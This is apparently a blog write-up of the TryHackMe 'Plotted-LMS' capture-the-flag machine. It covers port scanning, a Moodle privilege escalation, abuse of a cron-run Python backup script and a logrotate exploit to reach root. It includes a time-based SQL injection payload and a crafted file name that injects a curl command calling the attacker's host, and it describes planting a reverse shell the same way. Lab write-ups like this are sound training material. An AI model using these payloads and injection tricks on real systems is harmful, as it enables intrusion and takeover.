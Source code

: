 ```yaml
---
title: Plotted-LMS -- Writeup
date: 2022-04-26
categories: [TryHackMe, Hard]
tags: [tryhackme, ctf, moodle, cron, logrotten]     # TAG names should always be lowercase
img_path: /assets/img/tryhackme/plotted-lms/
---
```


# Summary -
Hard rated TryHackMe machine containing several rabbit holes(Rickrolls) and a vulnerable or let's say badly configured moodle server which can be used to gain initial access. After then for privilege escalation we have to abuse cronjob executing a certain python script and then logrotten thingy(which is also running kinda like cronjob). Overall, its a fun and well made room.

# Enumeration -
Nmap, here we go...
### nmap -
```bash
# Nmap 7.92 scan initiated Sat Apr 23 05:05:53 2022 as: nmap -T4 -p- -A -oA port_scan 10.10.151.133
Nmap scan report for 10.10.151.133
Host is up (0.14s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 67:af:92:c1:f0:9f:8a:18:62:8d:bf:ba:c4:58:8d:52 (RSA)
|   256 03:ca:42:df:ef:4b:3e:e6:91:0e:b2:bc:b4:42:1e:d1 (ECDSA)
|_  256 f1:ed:8a:8d:e4:87:d8:c7:69:c1:ca:2b:a4:dc:0c:dc (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
873/tcp  open  http    Apache httpd 2.4.52 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.52 (Debian)
8820/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
9020/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/23%OT=22%CT=1%CU=37643%PV=Y%DS=2%DC=T%G=Y%TM=6263C2A
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O
OS:3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11NW7%O6=M505ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M505NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT       ADDRESS
1   137.08 ms 10.11.0.1
2   137.35 ms 10.10.151.133

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 23 05:11:08 2022 -- 1 IP address (1 host up) scanned in 315.62 seconds
```

Uh... A lot of http servers. Sigh... Dirbust here we go...

##### port 80 -
Nothing much of interest here.

##### port 873 -
Found a hidden online rail management system on this web server at /rail directory. And it is vulnearable to SQLi but no luck so far escalation it.

```sql
1') AND (SELECT 9635 FROM (SELECT(SLEEP(5)))BtqU) AND ('alGi'='alGi
```

![](Pasted image 20220423155331.png)

![](Pasted image 20220423155351.png)

##### port 8820 -

Found learning management system at /learn.

![](Pasted image 20220423155530.png)

![](Pasted image 20220423205824.png)



##### port 9920 -

Found moodle running at /moodle which is interesting. Maybe this is the way. Let's see... :D

![](Pasted image 20220423155645.png)

While registering, it is saying only email address with certain domains are allowed. So, create account with certain domain.

![](Pasted image 20220423155901.png))

To grab moodle version, we can use moodlescan.

![](Pasted image 20220423160526.png)

And its Moodle v3.9.0-beta

# Exploitation -

After logging in, we can see that we can enroll as a teacher. Well, that's a good sign. Iirc there was a certain moodle exploit to escalate privilege to manager and then get rce. So, let's search.

![](Pasted image 20220425203630.png)

[https://book.hacktricks.xyz/pentesting/pentesting-web/moodle](https://book.hacktricks.xyz/pentesting/pentesting-web/moodle) - I always go to this site if I found something unfamiliar.

[https://www.youtube.com/watch?v=BkEInFI4oIU](https://www.youtube.com/watch?v=BkEInFI4oIU) - this video shows the poc nicely.

![](Pasted image 20220423163134.png)
![](Pasted image 20220425203911.png)

And with that, we can now try to exploit it.

![](Pasted image 20220423191903.png)

# Post Exploitation -
### www-data to plot_admin -

![](Pasted image 20220423192806.png)

moodle_user:<redacted> (Don't worry this creds doesn't matter...)

![](Pasted image 20220423203441.png)

Tried both but didn't work...

![](Pasted image 20220423203507.png)
_Above crontab linpeas output will come in handy in a later time... :D_

![](Pasted image 20220423203609.png)

![](Pasted image 20220423205939.png)

Ffs... Damn this box...

```python
import os

moodle_location = "/var/www/uploadedfiles/filedir/"
backup_location = "/home/plot_admin/.moodle_backup/"

os.system("/usr/bin/rm -rf " + backup_location + "*")

for (root,dirs,files) in os.walk(moodle_location):
        for file in files:
                os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
```

So, its probably this script... Sigh... (Remember the crontab output from linpeas?)

Let's analyse it.

So yeah, I know I'm bad at coding so had to do a lot of testing and stuff...

First, I grabbed backup.py on my local machine and played with it until I manage to exploit it.

We cannot do anything about the first os.system call but can abuse the second one.

```bash
" || curl 10.11.49.212 "
```

If we create a filed named like above and run the script we can see the connection approaching to our server.

![](Pasted image 20220424124719.png)

Okay, so next part is pretty tough as well.

Since, we know backup.py is executed by plot_admin as a cron job after some time we need to abuse that but how?

Okay, I lied it wasn't that hard, I just had trouble thinking about it. I used python3 one liner reverse shell and created a file just like our last curl file. Hopefully, will get a shell now.

**P.S. To avoid shell escaping, just create a python revshell using gui file manages and then use terminal to list it and grab the name. Ezpz eh?**

![](Pasted image 20220424125024.png)

And finally!!! Its been 84 years... XD

### plot_admin to root -
Hmm.. A logrotate.timer but its empty when opened.
![](Pasted image 20220424161419.png)

There was a rsync cronjob running as root as well. Let's use pspy to get more info...

![](Pasted image 20220425171611.png)

Hmm... Interesting...
[https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation](https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation)

![](Pasted image 20220425201939.png)

Exploit is kinda funky, may or may not work the first time or several or maybe you will need to reset a machine. So, don't give up... o7

![](Pasted image 20220425202000.png)
_Finally root..._